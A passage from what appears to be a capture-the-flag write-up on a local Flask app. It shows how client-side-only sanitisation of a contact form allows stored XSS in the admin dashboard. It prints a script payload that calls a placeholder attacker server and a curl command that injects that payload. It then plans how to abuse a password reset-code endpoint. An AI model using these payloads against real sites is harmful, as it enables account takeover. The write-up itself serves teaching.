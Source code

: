 ## Finding the vulnerability

Now, that we have a basic idea of how the application functions, let's discuss important things we have discovered till now. Our endgoal is to somehow change the password of `admin` user. For changing that, we will need his reset code.

Right now, we have no way to get reset code of `admin` user. Do you remember, we discovered that all our contact queries were actually being showed in the dashboard of administrator? Let's confirm the XSS first.

Let's enter a basic payload which will try to reach our server.

```html
'"><script>fetch('<SERVER_ADDRESS>')</script>
```

When we enter this payload and submit our contact query. We do not get any request on our server, why? When we look at the html code of `/contact`, we see the reason behind this.

![img](assets/6.png)

When we submit our contact query, this `submit()` function is being called. This function first sanitizes the contents of message input box and then send a POST request with all three values (name, email and message) to `/contact` endpoint.

Developers made this function to ensure no one sends malicious HTML through their contact form, but there is a obvious flaw here: The sanitization is only being done on client-side and not on server-side. Meaning, if we directly send POST request to the server, then the contents of message field will be stored as it is. Let's quickly confirm this by sending this curl command.

```bash
curl -X POST http://127.0.0.1:1337/contact -H "Content-type: application/x-www-form-urlencoded" -d "name=test&email=test@test.com&msg='\"><script>fetch('<YOUR_SERVER>')</script>"
```

We get a request on our server after sending this curl request which means that our javascript is indeed being executed in admin dashboard.

Great, so now we can just steal admin cookies and takeover his account? The answer is No, because Flask's session cookies by default are set to be Http-Only, meaning that we can not access session cookies through Javascript.

There is another authenticated endpoint `/resetcode` which generates reset code for the user. What if we exploit XSS vulnerability to send request to `/resetcode` endpoint through admin account? This way, a reset code will be generated for `admin` user. But even if we are successful in generating reset code for that account, how will we get that reset code ?
